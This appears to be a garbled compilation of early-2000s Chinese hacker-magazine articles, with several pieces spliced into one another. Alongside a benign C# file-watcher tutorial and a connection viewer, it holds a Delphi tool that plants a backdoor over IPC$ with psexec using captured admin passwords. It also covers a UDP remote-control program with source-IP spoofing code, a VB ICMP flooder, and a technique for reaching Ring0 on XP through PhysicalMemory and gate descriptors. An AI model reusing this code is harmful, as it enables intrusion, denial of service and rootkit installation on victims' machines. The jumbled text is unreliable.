FileSystemWatcher 组件用于监视目录中的更改，而不是监视对根目录属性本身的更改。例如，如果正在监视名为 c:\MyProjects 的目录，则该组件将监视该目录内的更改，但不监视对根目录本身的更改。该组件监视的更改类型包括对文件或子目录的属性、大小、上次写入时间、上次访问时间和安全设置的更改。

FileSystemWatcher 具有以下属性：

| 属性 | 说明 |
|---|---|
| Path | 需要监控目录 |
| EnableRaisingEvents | 启动或停止 FileSystemWatcher 组件 |

### 二、编写过程

使用 FileSystemWatcher，首先需要生成一个对象，然后设置响应的对象和方法，然后处理响应的事件。

- 1. 打开 Visual Studio，新建一个 C# 的 Windows 窗体项目，在 form1 窗体的设计中，将窗体的 text 属性设置为“文件监视器”。
2. 在窗体中添加两个按钮，button1 的 text 属性设置为“开始”，button2 的 text 属性设置为“停止”。添加两个 textbox 控件，第一个 text 属性设置为“需要监控的目录”，第二个 text 属性设置为“需要监控的文件类型”，然后增加一个 listbox 控件，其 items 集合属性设置为空，如图 1 所示。
3. 编写代码，首先生成 FileSystemWatcher 对象！由于 FileSystemWatcher 对象位于 System.IO，命名为 mywatcher，接下来设置 textBox1 窗体中的 text 为要监视的文件目录，textbox2 窗体中的 text 为要监视的文件类型，如 `*.htm` 等，监控所有文件类型则使用 `*.*`。

```csharp
FileSystemWatcher mywatcher = new FileSystemWatcher();
mywatcher.Path = textBox1.Text;
mywatcher.NotifyFilter = NotifyFilters.LastAccess
    | NotifyFilters.LastWrite
    | NotifyFilters.FileName
    | NotifyFilters.DirectoryName;
mywatcher.Filter = textBox2.Text;

```

然后生成事件处理器，FileSystemWatcher 组件根据目录发生改变类型触发 4 类事件——created、deleted、renamed、changed。我们利用事件处理器来自动调用方法，进行定义部分：

```csharp
mywatcher.Changed += new System.IO.
    FileSystemEventHandler(this.OnChanged);
mywatcher.Created += new System.IO.
    FileSystemEventHandler(this.OnChanged);
mywatcher.Deleted += new System.IO.
    FileSystemEventHandler(this.OnChanged);
mywatcher.Renamed += new System.IO.
    RenamedEventHandler(OnRenamed);
mywatcher.EnableRaisingEvents = true;

```

这样就可以监视文件目录内所有操作，由于文件的 changed、created、deleted 事件都可以使用一个函数来操作，所以我们在这里只生成两个方法，即 OnChanged 和 OnRenamed 方法。下面我们来编写这两个方法：

我们的目的是将监视文件改变情况列举在窗体命名空间内，所以在代码最前面加上一句：

```csharp
using System.IO;

```

在设计窗体中，双击“开始”按钮，激活 button1_Click 事件，添加如下代码，生成 FileSystemWatcher 对象，并将新生成的对象

```csharp
private void OnChanged(object sender, System.IO.
    FileSystemEventArgs e)
{
    listBox1.Items.Add(e.FullPath + " " +
        e.ChangeType);
}

private void OnRenamed(object source, System.IO.
    RenamedEventArgs e)
{
    listBox1.Items.Add(e.OldFullPath + " changed to " + e.FullPath);
}

```

当监视文件触发到 created、deleted、changed 事件的时候，就将调用 OnChanged 方法，即在 listbox 窗体中添加一行信息，信息内容为文件全名后加改变类型，e.FullPath 即为文件的带路径全名，e.ChangeType 为文件的改变类型，如 deleted（删除）、created（创建）、changed（改变）。

当监视文件触发到 renamed 事件的时候，就将调用 Renamed 方法，它的作用是在 listbox 窗体中添加一条信息——包括文件原来的名字和改名后的名字。e.OldFullPath 为文件改名前的名字，e.FullPath 即为改名后的文件名！


图 2

怎么样？简单吧！本代码只是做一个抛砖引玉的作用。并没有提供容错处理，对于 textbox 的输入也没有进行正确性判断。当然，大家还可以自己发挥，可以添加邮件发送功能，通知被监视文件的更改信息等等！

此代码在 Windows 2000 Professional + VS.NET 2003 下调试通过！图 2 是我的截图，该程序源代码见光盘。


对于想学习编程的读者来讲，最重要的莫过于要有一个合理可行的编写思路，很多读者往往是因为没有一个好的思路而感觉无从下手，本文就是教你如何确立一个思路，而后把一些好的资源用到自己的软件中，从而开始自己学写黑客软件编程。

#### 编写一个能种植后门的程序


文／sforever

##### 写作此程序的目的

我们经常能够使用扫描软件扫描到很多 Windows 2000 系统的弱口令用户，然而在得到这些用户名和密码后，安装后门的过程通常会变得很烦琐，需要在命令提示符下输入很多命令。我是一个很懒惰的人，很不习惯这样工作，并且这种工作也很浪费时间。并且，我很喜欢使用有界面的程序，虽然这对于很多高手来说是可耻的。

小榕的流光估计大家都用过，其中有一个功能叫做“IPC 种植者”。它可以在得知对方管理员账号和密码的情况下，轻松地种植一个后门到对方机器上。不过，流光体积非常的庞大，如果不是固定上网的话，携带起来非常的不方便。并且，现在流光正在更新版本，旧版本已经过期了。另外对于我个人来说，比较喜欢短小精干的软件，所以才促使我写一个比较适合自己的“种植者”软件。

##### 写作前的分析

我知道流光是使用 VC 编写的，它首先通过跟远程主机建立好 IPC 连接通道，然后把后门程序拷贝到对方计算机上，再利用 AT 命令来启动后门程序。而我对 VC 并不了解，所以只好使用自己比较熟悉的 Delphi 来写了。我曾经在网络上看到过一个远程安装后门的批处理文件，是一个叫“木狐”的网友写的。当时很受启发，我测试了一下，可以很好地实现类似“种植者”的功能，不过需要借助一款软件来达到目的——psexec.exe，psexec.exe 的功能很强大，它可以远程执行对方计算机上的程序。不过话又说回来了，“木狐”的东西也有很多不足之处，使用起来还是让我感觉很烦琐（比如涉及到的文件太多，对新手来说不知道运行哪一个才好；另外还是脱离不了在命令提示符下使用）。结合上面的一些思路，我们可以使用 Delphi 来编写一个具有图形界面的程序。但是，此程序的主要运行过程是通过调用批处理文件来实现的（我当然没有小榕的编程功力，所以只好投机取巧了）。

##### 程序编写

因为我们程序运行时需要利用一个 psexec.exe 文件，所以我们最好把这个文件捆绑到我们程序的内部，当执行程序的时候，能自动释放一个 psexec.exe 文件出来，并且释放的位置最好是在系统目录。我经过测试，如果 psexec.exe 释放到其他目录，有时候程序运行会不成功，并且产生的批处理文件也要在系统目录下。

```pascal
首先要得到系统目录的路径
function GetWinDir: String;
var
  Buf: array[0..MAX_PATH] of char;
begin
GetSystemDirectory(Buf, MAX_PATH);
Result := Buf;
if Result[Length(Result)] <> '\\' then Result := Result + '\\';
end;
```

程序运行后，产生一个 psexec.exe 文件到系统目录中。在单元文件（$R *.dfm）后加上一句，（$R psexec.RES），至于 psexec.RES 文件的产生的，我在这里不详细说了。大家可以看陈经撰的文章《谈 Delphi 编程中资源文件的应用》。

```delphi
procedure TForm1.FormCreate(Sender: TObject);
function EXEResFile(const ResName, ResType, NewFile: String): Boolean;
var
  Res: TResourceStream;
begin
  Result := True;
  try
    Res := TResourceStream.Create(HInstance, Resname, Pchar(ResType));
    try
      Res.SaveToFile(NewFile);
    finally
      Res.Free;
    end;
  except
    Result := False;
  end;
end;

function psexecFile(const NewFile: String): Boolean;
begin
  Result := EXEResFile('psexec', 'exeFile', GetWinDir + NewFile);
end;

begin
  if not(FileExists(GetWinDir + 'psexec.exe')) then
    psexecFile('psexec.exe');
end;
```

```delphi
// 程序的主要运行过程
BatchFileName := GetWinDir + 'run.bat';
AssignFile(BatchFile, BatchFileName);
Rewrite(BatchFile);
Writeln(BatchFile, '@ECHO off');
Writeln(BatchFile, '@ECHO =========By NetNpc8');
Writeln(BatchFile, '@ECHO)');
Writeln(BatchFile, '@ECHO =========By sforever');
Writeln(BatchFile, 'Welcome to http://sforever.mycool.net');
Writeln(BatchFile, '@net use \\'+edit1.text+'\\ipc$ "'+edit3.text+'" /user:"'+edit2.text+'"');
Writeln(BatchFile, '@copy "'+edit4.text+'" \\'+edit1.text+'\c$');
Writeln(BatchFile, '@psexec \\'+edit1.text+' -c -f '+extractfilename(edit4.text+' '));
Writeln(BatchFile, '@net use \\'+edit1.text+'\\ipc$ /delete');
CloseFile(BatchFile);
CreateProcess(nil, PChar(BatchFileName), nil, nil, False, IDLE_PRIORITY_CLASS, nil, nil, StartUpInfo, ProcessInfo);
```

其中，edit1.text 为对方的 IP 地址，edit2.text 为对方的用户账号，edit3.text 为对方的用户密码，edit4.text 为后门程序路径（本地）。通过代码我们可以看出，程序运行时可以在系统目录下产生一个 run.bat 批处理文件，然后运行这个批处理文件并结合软件 psexec 来实现后门的种植。以上代码是拷贝后门程序到对方系统的 C 盘下，你也可以自行修改拷贝的位置。

### 总结

到此为止，我们的程序就写完了，我经过大量的测试，上面的方法的确很方便地实现了后门软件的种植。图 1 所示是我所写的程序界面。


如果对这款软件比较感兴趣的话，可以访问我的主页 http://sforever.mycool.net，上面有完整的软件和源代码下载。

这是一篇由 Tico 翻译的 Angelo Rosiello 的关于如何用 UDP 来编写远程控制的程序，其中的编程思想可为那些想编写远程控制软件和木马等的读者提供借鉴，这篇文章中所提到的技术代表了目前国外关于这方面的最新技术，故编者安排译者将其文章翻译后介绍到国内来，希望能够借此提高国内编程人员的水平。原文见 http://packetstormsecurity.nl/papers/protocols/UDPRemoteControls.txt。

- 难度等级：中
- 前置知识：熟悉 TCP/IP 协议，C，Linux


## 利用 UDP 编写远程控制程序

Angelo Rosiello 著，Tico 译

### 简介

我拟以本文阐释使用 UDP 协议控制服务器的可能性。为例证所有问题，我提供了相应的程序。你可以从下述地址获得完整的包：http://packetstormsecurity.org/UNIX/penetration/udp-remote-final.tar.gz

此项目源代码见光盘中的 server.c、client.c、crypto.c 源代码文件。

### UDP 基础

在解说程序的功能效用之前，我想先解释一下有关 UDP 协议的几个关键问题，这些问题是整个工作的基本要素。

用户报文协议（User Datagram Protocol，UDP，RFC 768），和 TCP 一样，是 ISO/OSI 模型的传输层协议：

7. 应用层
6. 表示层
5. 会话层
4. 传输层（TCP—UDP）<--- 我们在这里！
3. 网络层（IP）
2. 数据链路层
1. 物理层

UDP 报文的一般格式如下：

| Source Port | Destination Port |
|---|---|
| 源端口 | 目标端口 |

| Length | Checksum |
|---|---|
| 报文长度 | 校验 |

| data octets ... |
|---|
| 数据位 |

用户报文报头格式：

1. 源端口（16 位）：源端口是可选域，它标明报文是从哪里发出及希望应答最终发往哪里。若未加设置，缺省值强制为 0。
2. 目的端口（16 位）：标明交互过程的最终目的端口。
3. 报文长度（32 位）：报文用字节表示的总长度（报头 + 数据）。
4. 校验（16 位）：提供了如同 TCP 信息单元的差错控制的功能，它是报头中包括源 IP 地址、

目的 IP 地址、TCP 协议号及以字节为单位的 UDP 部分长度值的加和。

由校验域实现的错误控制程序是可选的，这是为了尽可能地精简协议。

### 如何伪造报文

在 OSI 模型中，UDP 协议利用 IP 服务。UDP 服务是无连接的，它并不会获取相连的两主机间的任何逻辑连接，它并不能保证信息单元在网络中依序传递，最后也不对报文的正确传递加以确认。UDP 的“软肋”就是可以（用假 IP）发送“伪造”的数据包。

这是由 UDP 实现的无连接协议的必然结果。

### 一段代码

为能更清楚地说明问题，下面我们来看一段代码，这段代码用来伪造报文的源 IP 域：

```c
#include <stdio.h>
void main()
{
    int argc;
    char **argv;
    int sd;
    int port = 34567;
    struct sockaddr_in source_addr, destination_addr;
    udp_initialize(&source_addr, 0, inet_addr(argv[1]));
    //      (1)
    udp_initialize(&destination_addr, port, inet_addr(argv[2]));    //      (2)
    sd = socket(AF_INET, SOCK_DGRAM, 0);
    bind(sd, (struct sockaddr *) &source_addr, sizeof(source_addr));
    sendto(sd, argv[3], strlen(argv[3]), 0, (struct sockaddr *) &destination_addr, sizeof(destination_addr));
}

void udp_initialize(struct sockaddr_in *address, int port, long IPaddr)
{
    address->sin_family = AF_INET;
    address->sin_port = htons((u_short)port);
    address->sin_addr.s_addr = IPaddr;
}
```

### 代码解释

- （1）这段代码调用 `udp_initialize` 过程以填写 socket 结构域。在该特例中我们将 socket 端口指定为 0，IP 地址由 `argv[1]` 确定。

注意：IP 和端口可以任意给出，因为我们不需要返回应答。

在（2）处，赋予适当的目标主机 socket 值。在（1）处，我们创立了伪造的报文。到这里我们已经大致弄清了 UDP 的机制，这样我们就可以更好地了解我的工具。这个程序可以用多种用法，但是正是在这种复杂性当中隐藏着它的有趣之处。

### 直接应用我的工具

该程序实现于 2002 年，当时是作为一个不打开任何与目标服务器的直接逻辑连接而执行远程命令的工具。在一开始我就排除了 TCP 协议，因为它是面向连接的。另一方面，这也会尽量避免打开 TCP 端口，因为这些端口易被扫描而且可能是阻塞（或接近阻塞）的。程序的第一个版本的动态算法并不完善，因为它不能从外部文件而只能从源文件中读入命令。于是我编写了另外一个过程以便从配置文件中读入要执行的命令。

### 程序分析

（这是我自己的程序，但是你可以另外编写一个，这只不过是个概念问题而已）

```c
#define PORT 32980        // 监听端口
#define ETC  "udp.conf"   // 配置文件。定义子文件名，从哪里开始读入要执行的命令。你可以任意更改上面的值。
```

文件 “udp.conf”（未加密的）应当经过编辑，以便随后能正确地使用：

```text
$cat udp.conf
KEY-WORD /PATH/TO/PROGRAM
example:
angelo: /home/angelo/hello
```

## 查看本机连接的方法

文／田文春

很多时候，我们希望知道与自己计算机通信的远程计算机有哪些，其 IP 地址是什么，以判断自己的计算机是否处于别人的监控下面，自己是否中了某种木马等。另外，喜欢使用 QQ 的朋友可能也想知道与自己聊天的网友的 IP 地址，从而再使用其他的工具查看其所在地。

如果我们能够在任意时刻知道与自己机器通信的所有远程主机的 IP 地址列表，就能够发现计算机所有的 TCP、UDP 以及 ICMP 等连接。如果我们发现一个很奇怪的 IP 地址与你的机器有数据包来往（对该 IP 地址你可以确信没有与它通信），那你就可能中了木马。

### 一、原理

本程序使用的原理其实很简单，首先程序启动时得到自己的 IP 地址，开始捕获时，就捕获所有源地址或目的地址与本机地址一样的 IP 数据包。然后对数据报进行分析，解析出对方机器的 IP 地址。

如果服务器收到关键词 “angelo”，就执行文件 “/home/angelo/hello”。

此工具还提供了记录所有收到的命令，包括数据及源 IP 的过程。

服务器程序无法工作，因为它不能正确读取 “udp.conf” 文件。

```c
fd = open("server.log", O_CREAT | O_RDWR | O_APPEND, 0644);
```

记录放在程序所在目录，名为 “server.log”。在项目编写的过程中，我决定对配置和记录文件加密。`crypto()` 算法简单但不失精巧；它对文件的所有字节用一个密钥进行 XOR。

```c
int key = 0xff17261;  /* 此处是密钥，更改此值 */
```

缺省的密钥是：

你可以将此处改为其他值，例如 `0xff71678` 等等。

在对 “UDP.CONF” 文件进行适当编辑后，应当用程序包主目录下的加密程序对其加密。重要的是 `server.c` 和 `crypto.c` 中的密钥应当一致，否则服务器程序无法工作，因为它不能正确读取 “udp.conf” 文件。

### 快速指南

按上述指导编辑 “udp.conf” 文件，改变 `server.c` 和 `crypto.c` 中的密钥（两者必须一致！）。

### 编译程序

```bash
$ ./server  （程序会在后台执行）

现在只需要客户端键入命令：
$ ./client SOURCE-IP DEST-IP PORT command
```

### 工程源码

由于版面有限，Linux 下的工程源码均收录到光盘下，其中：`server.c` 是服务器代码；`client.c` 是客户端代码；`crypto.c` 是加密部分代码。

**编后：** 本文向我们揭示了如何在 *nix 平台上利用 UDP 协议编写远程控制程序的思路，相信对广大程序员有很好的借鉴。

此外，所使用的通信协议等，再显示出来，从而知道有哪些 IP 地址的远程主机与自己有过通信的数据包往来。

## 二、使用方法

先启动程序，界面如图1所示。


按协议选择按钮，选择你想截获哪种协议包，我们将其简单地分为 TCP 包、UDP 包和其他的协议包，如图2所示。


协议选择完毕后，点击“开始查询”，即可显示与你机器通信的远程主机的 IP 地址。图3是本人利用该工具进行的一次截获的图示。

## 三、程序说明

我们下面说明使用 VC++6.0 实现的方法。对于一些显示控件的使用相信大家都很熟悉了，也不是本文的重点，就不再多说。本文主要说明核心代码部分。


对于一些显示控件的使用相信大家都很熟悉了，也不是本文的重点，就不再多说。本文主要说明核心代码部分。

### 1. 得到本机 IP 地址

本功能主要使用两个函数，即 `gethostname()` 和 `gethostbyname()`，其他使用这些函数要进行的初始化，以及使用完毕后要释放资源这里就不多说。`gethostname()` 有两个参数，一个是字符数组，用来存放返回的主机名的，另一个是指明该字符数组的大小。`gethostbyname()` 有一个参数，指定机器名的 `CString` 类型。

### 2. 建立包捕获的线程

我们通过一个类 `CListen` 来实现。通过一个类的实例，再调用该实例的 `StartListen()` 方法启动包捕获的线程。每捕获一个数据包就激发一个 `MSG_RECEIVE` 消息，将捕获的数据包以消息的形式传递给系统，由自定义的消息处理函数 `OnReceive()` 接受消息并做进一步的处理。

### 3. 数据包解析和数据显示

捕获到数据包后，解析其 IP 头，得到源 IP 地址、目标 IP 地址和使用的协议。如果列表里已经有了该 IP 地址，就不再添加。这些功能在 `Out2List()` 函数里完成。

## 四、结束

本程序肯定尚有不完善的地方，将源程序附在光盘，请各位多提意见。

## 挑战VB

### “不可能完成的任务”

### ——用VB编写Flooder


曾经有人对我说过，他永远不相信VB能写 Flooder，原因是VB程序效率低下、不稳定，不能与C写出的Flooder同日而语，而且也根本写不出真正能用的Flooder。当初我刚开始接触WinSock API，用的是C，没有能力反驳。现在，该是为VB平反的时候了。VB不能写Flooder？我偏要挑战这个“不可能完成的任务”！

### 准备工作

VB写WinSock有两种方法：API和ActiveX，无聊的人才去选择ActiveX，学VB不会API就等于没学过，而且用ActiveX也不能证明什么，所以我选择了API，用原始报文写一个ICMP Flooder。

ICMP Flood似乎是国人比较喜欢的方式，每次有什么事件发生，都会看到很多人用ping去“反击”，思想是正确的，不过实现的方法就……

不可否认，ping也算ICMP的一种，但是它的速度要想达到目的，无疑于汽弹枪打坦克……我在这里并不想教大家用IcmpSendEcho计算一个ICMP数据包的往返时间，要了解ICMP Flood原理的可以参考笔者在2003年第3期发表的《浅析ICMP洪水攻击》，这里不再重复。

也许有人会说，直接把C代码“翻译”过来不就可以了？这个想法没错，我也测试过，的确能产生ICMP报文，但是事情永远没那么简单——直接翻译的代码产生的报文是错误的，连ICMP的踪影都没抓着。

既然如此，我们就需要一步一步分析，看看是什么导致了这个差异。

### 分析原理

由于ICMP必须用原始IP报文产生，所以必须自己声明ICMP首部，否则用什么语言写出来的ICMP数据包都是畸形的。ICMP的首部声明如下：

```c
typedef struct _ihdr
{
    BYTE i_type;      // 类型
    BYTE i_code;      // 代码
    USHORT i_cksum;   // 校验和
    USHORT i_id;      // 识别号
    USHORT i_seq;     // 序列号
    ULONG i_timestamp;// 时间戳
} ICMP_HEADER;
```

查查资料就能发现C的变量类型怎么转化为VB的变量类型，在VB里声明一个ICMP首部：

```vb
Type ICMPHeader
    i_type As Byte      ' 类型
    i_code As Byte      ' 代码
    i_cksum As Integer  ' 校验和
    i_id As Integer     ' 识别号
    i_seq As Integer    ' 序列号
    timestamp As Long   ' 时间戳
End Type
```

一直对比下去，无非就是填充sockaddr_in和ICMP首部，直到这里：

C语句：

```c
memcpy(SendBuf, &icmp_header, sizeof(icmp_header));
```

## XP内核DIY

文／wowocock.1[CVC]

长久以来，RING0一直是黑客程序员的不懈追求，在RING0中可以获得无上的权限，这也是病毒的最爱，CIH的威力想必大家也见识过了。在Windows 9x下进入RING0的方法很多，由于各种更多的保护机制，Windows 2000以后常规方法进入RING0已经有了很多困难，不过问题总会有它解决的办法的，看看本文你就会恍然大悟的。

### 保护机制

为了支持多任务，对各任务实施保护是必须的。从80286开始，处理器就具备了保护机制，保护机制能有效地实现不同任务之间的保护和同一任务内的保护。

在一个任务之内，定义有4种执行特权级别，用于限制对任务中的段进行访问。按照包含在段中的数据的重要性和代码的可信程度，给段指定特权级别。

把最高的特权级别分配给最重要的数据段和最可信任的代码段。具有最高特权级别的数据，只能由最可信任的代码访问。给不重要的数据段和一般代码段分配较低的特权级别。具有最低特权级别的数据，可被具有任何特权级别的代码访问。特权级别用数字0、1、2和3表示，数字0表示最高特权级别，而数字3表示最低特权级别，即数字较大的级别具有较低的特权。所以，有所谓RING0的由来。如果应用程序拥有RING0权限，它就可以运行所有的指令，并访问所有的数据；如果应用程序拥有RING3权限，那么只能执行有限的指令，访问有限的数据，不能运行特权指令，也不能访问保护数据，NT下不能IO，所以受到了很大的限制。

而我们一般所用VC、VB、DELPHI、BCB等SDK工具开发的都是RING3的程序。由于RING0程序的强大功能，微软一直不开放其技术，所以我们一般只能用VC和MASM来开发VXD、KMD、WDM，即所谓的驱动程序。当然，除了驱动外，我们还可以通过其他方法进入RING0，包括任务门、中断门、调用门、陷阱门等x86提供的后门，比如曾经轰动一时的CIH病毒就是利用了INT 3中断门进入RING0以达到破坏硬盘和BIOS的目的，而这在RING3下是根本不能实现的。当然，由于NT的页级保护机制，GDT、IDT这些系统地址在NT下都被保护起来，所以CIH的方法就不行了。不过不知道为什么微软还是留下了后门，所以我们可以通过后面的方法，直接进入RING0而无须驱动……

当然可能微软也意识到这点了，所以在其Server 2003中进行了改进，不能用该方法了，不过通过把我的代码添加到驱动后，还是可以生成自己的中断门进入RING0，看来驱动是无所不能的，呵呵。

> 本文所有讨论只是一个技术热爱者的讨论提醒而已，请不要用于其他目的。

## 如何进入RING0

x86CPU提供了很多进入RING0的方法，包括任务门、调用门、中断门、陷阱门，在Windinws 9x下进RING0的方法很多，就不多说了，可以到vbin.51.net，参考我以前写的《总结进入RING0的方法》一文。

> 《或者进入RING0的方法》一文非常详细地总结了Windows 9x下所有进入RING0的方法，非常详细，对于想学RING0的朋友来说，肯定是（修正原文“可定”）很好的教材了。

众所周知，Windows NT/2000 为实现其可靠性，严格将系统划分为内核模式与用户模式，在 i386 系统中分别对应 CPU 的 Ring0 与 Ring3 级别。Ring0 下，可以执行特权级指令，对任何 I/O 设备都有访问权等等。要实现从用户态进入核心态，即从 Ring 3 进入 RING 0 必须借助 CPU 的某种门机制，如中断门、调用门等。而 Windows NT/2000/XP/2003 提供用户态执行系统服务（Ring 0 例程）的此类机制即 System Service 的 INT 2Eh 中断服务等、XP 的 SYSENTER/SYSEXIT（INTEL）、SYSCALL/SYSRET（AMD）严格的参数检查，我们只能严格地执行 Windows NT/2000/XP 提供的服务，而如果想执行用户提供的 Ring 0 代码（指运行在 Ring 0 权限的代码），常规方法似乎只有编写设备驱动程序。

好在系统提供给我们一个后门，提供了一个叫 PhysicalMemory 的 Section 内核对象，其位于 `\Device` 的路径下。顾名思义，通过这个 Section 对象可以对物理内存进行操作。不过默认情况下只有 SYSTEM 用户才有对这个对象的读写权限，即对物理内存有读写能力，而 Administrator 只有读权限，普通用户根本就没有权限。不过如果我们有 Administrator 权限就可以通过 GetSecurityInfo、SetEntriesInAcl 与 SetSecurityInfo 来获得对该对象的写操作。相关代码如下所示（由于比较简单，并且我们文中都有详细说明，我们代码中不再添加注释）：

```c
VOID SetPhysicalMemorySectionCanBeWrited(
    HANDLE hSection)
{
    PACL pDacl = NULL;
    PACL pNewDacl = NULL;
    PSECURITY_DESCRIPTOR pSD = NULL;
    DWORD dwRes;

    EXPLICIT_ACCESS ea;

    if (dwRes = GetSecurityInfo(hSection,
        SE_KERNEL_OBJECT,
        DACL_SECURITY_INFORMATION,
        NULL,
        NULL,
        &pDacl,
        NULL,
        &pSD) != ERROR_SUCCESS)
    {
        printf("GetSecurityInfo Error: %u\n", dwRes);
        goto CleanUp;
    }

    ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
    ea.grfAccessPermissions = SECTION_MAP_WRITE;
    ea.grfAccessMode = GRANT_ACCESS;
    ea.grfInheritance = NO_INHERITANCE;
    ea.Trustee.TrusteeForm = TRUSTEE_IS_NAME;
    ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
    ea.Trustee.ptstrName = "CURRENT_USER";

    if (dwRes = SetEntriesInAcl(1, &ea, pDacl, &pNewDacl)
        != ERROR_SUCCESS)
    {
        printf("SetEntriesInAcl %u\n", dwRes);
        goto CleanUp;
    }

    if (dwRes = SetSecurityInfo(hSection,
        SE_KERNEL_OBJECT,
        DACL_SECURITY_INFORMATION,
        NULL,
        NULL,
        pNewDacl,
        NULL) != ERROR_SUCCESS)
    {
        printf("SetSecurityInfo %u\n", dwRes);
        goto CleanUp;
    }

CleanUp:
    if (pSD)
        LocalFree(pSD);
    if (pNewDacl)
        LocalFree(pNewDacl);
}
```

详细的内容可以参考 WEBCRAZY 的代码。通过该方法我们可以在 GDT 中生成一个调用门然后进入 RING0 层，但是缺点是必须在 Administrator 下，如果切换到其他模式下就不行了。但是至少有了这么一个机会，我们就可以在系统中生成我们自己的系统调用安装后门，这里我要用到微软未公开的 3 个 API 函数：

```c
NTSTATUS KeI386AllocateGdtSelector(
    PUSHORT SelArray);
```

## 未公开的 Windows 2000 核心功能调用

```
c
NTSTATUS KeI386ReleaseGdtSelectors(OUT PUSHORT SelArray, IN int NumOfSelectors);

NTSTATUS KeI386SetGdtSelector(IN ULONG sels, IN PVOID desc, IN int NumOfSelectors);
```

这些未公开的 Windows 2000 核心功能调用（Windows NT 4.0 一般也可以调用）是针对 Intel 80386（i386）以上 CPU 的，没有移植性，这可能也是微软不公开这些调用的原因。不过这也是威力非凡的，据我测试，这些 API 可用于 WinNT/2K/XP/2003，用法也很简单。从函数名大家也可以猜到，即分配、释放及设置 GDT 选择子，其中 KeI386AllocateGdtSelectors 可以用来在 GDT 中设置一系列的选择子，虽然这里我们只需要生成一个即可，不过我们完全可以自己写一段搜索函数查询 GDT 的空白处，不过既然微软有现成的功能接口提供，何乐而不为呢？浪费了多可惜！

> **编者注：** GDT，即全局描述符表。全局描述符表在系统中只能有一个，且可以被每一个任务所共享。任何描述符都可以放在 GDT 中，但中断门和陷阱门放在 GDT 中是不会起作用的。能被多个任务共享的内存区就是通过 GDT 完成的。

在调用 KeI386AllocateGdtSelectors 后即可在 CallGateSel 获得 SELECTOR：

```
asm
push 1
lea eax, CallGateSel[ebx]
push eax
call dword ptr KeI386AllocateGdtSelectors[ebx]
```

> **注：** 由于本用病毒重定位技术，所以看起来有点怪。

通过 KeI386SetGdtSelector 函数将该 SELECTOR 写入 desc 的描述符（ESI 指向它），即调用门即可。代码如下：

```
asm
... [ebx]
```

```
asm
call dword ptr KeI386SetGdtSelector[ebx]
```

KeI386ReleaseGdtSelectors 是释放分配 SELECTOR 的，不过我观察好像没什么用（郁闷），通过这两步，你就能够在 GDT 生成你自己的调用门，GDT 存放了所有与系统相关的描述符信息，一般在 2K/XP/2003 下头几个描述符都是固定的，譬如 8、10H、1BH、23H、28H 分别对应系统 RING0 CS、DS、RING3 CS、DS，及 TSS，这样安排我想也许是为了更方便使用 Intel 提供的新指令（SYSENTER/SYSEXIT），更方便快捷地进行特权级切换。

不过，由于调用门中 RING0 地址是固定的，那么该如何动态地生成调用门中的地址呢？我们可以通过中断门，将你要执行代码的 RING0 地址传到调用门生成例程中，即通过中断门执行我们 RING0 例程，生成调用门描述符的 RING0 例程地址，从而可以随心所欲地生成任意调用门，从而执行你自己的 RING0 代码。据我观察，在 Windows 2K/XP/2003 中，IDT 中中断 20H~29H 系统都没有被使用而被保留，而这正好可以为我所用。不过这里就不能够使用前面未公开 API 了，因为要操纵 IDT，而不是 GDT，所以必须自己想办法。这里我们通过搜索 IDT 表，找到空白之处来生成我们自己的中断门（搜索例程参考代码中的 Search_XDT）。

> IDT，即中断描述符表。和 GDT 一样，中断描述符表在系统中最多只能有一个。中断描述符表内可以存放 256 个描述符，分别对应 256 个中断，因为每个描述符占用 8 个字节，所以 IDT 的长度可达 2K。中断描述符表中可以存任务门、中断门、陷阱门 3 个门描述符，其他的描述符在中断描述符表中无意义。

说了一大堆东西，可能大家头都晕了，这里简单总结一下：首先通过 GetSecurityInfo、SetEntriesInAcl 与 SetSecurityInfo 来获得对 `\Device\PhysicalMemory` 对象的写操作，然后在 GDT 中生成指向自己第一次执行 RING0 代码段的 CALLGATE（调用门），通过该调用门进入 RING0，然后在 RING0 中首先获得这 3 个未公开 API 的地址。（由于在内核层没有提供类似 GetProcAddress 的函数，所以必须通过自己的函数 MyGetProcAddress 来获得 NTOSKRNL 中的函数地址，保存获得的地址，搜索 IDT 表，找到空白处，一般为 20H，然后写入我自己的中断门，中断门的入口地址放到 IDT 的后面（一般在内核层需要通过 ExAllocatePool 来分配内存，不过这里我偷懒了一下，把代码放到了 IDT 的后面，因为任何情况下 IDT 是不会被分页的，嘿嘿）。代码如下：

这样，在 IDT 中就生成了我自己的中断门 INT20H，任何时候，当你想执行 RING0 例程时，只要把你的例程代码地址放到 EAX 中，然后调用 INT20H（在 XP 下会显示 VXD 调用），即进入 RING0 服务例程，返回给你的就是指向你所要执行 RING0 的例程 CALLGATE，然后经由该 CALLGATE，即可执行你自己的 RING0 代码，至于以后的事，就全在你自己了（详细内容请参考我的代码，包括纯汇编的、C+ASM 的及驱动代码，特别推荐驱动代码可以用于 2K/XP/2003 等）。

```
NTSTATUS KeI386AllocateGdtSelectors (OUT PUSHORT SelArray,
    IN int NumOfSelectors)

NTSTATUS KeI386ReleaseGdtSelectors (OUT PUSHORT SelArray,
    IN int NumOfSelectors)

NTSTATUS KeI386SetGdtSelector (IN ULONG sels, IN PVOID desc)
```

> **注：** 在 2003 下磁盘的限制更严格了，Administrator 下也无法使用 PhysicalMemory，所以只能通过将我的代码写入驱动中，由驱动在系统启动时生成内核例程。

> **提醒 6：** 作者的相关经验例子及源代码已经放在光盘之中，相信大家可以从中学到很多东西。

# （上接第 221 页）

```
memset(SendBuf+sizeof(icmp_header), 'E', PacketSize);

VB 语句：
CopyMemory SendBuf,icmp_header,Len(icmp_header)
FillMemory SendBuf,PacketSize,&H56
```

在 VB 环境里，这两句导致了 IDE 的崩溃，编译后执行，产生的就是错误的数据包。凭直觉，问题就出在这里，尝试去除这两行，产生的数据包变成 ICMP 了，可是什么含义也没有。难怪嘛，ICMP 首部都没有和发送出去的数据包组合在一起。

难道就这么结束了？VB 真的不能做 Flooder？虽然刚才那样做已经产生 ICMP 数据了，可是它不具备一个正常的 ICMP 数据包所携带的特征标记，不能属于“有用”的 Flooder。

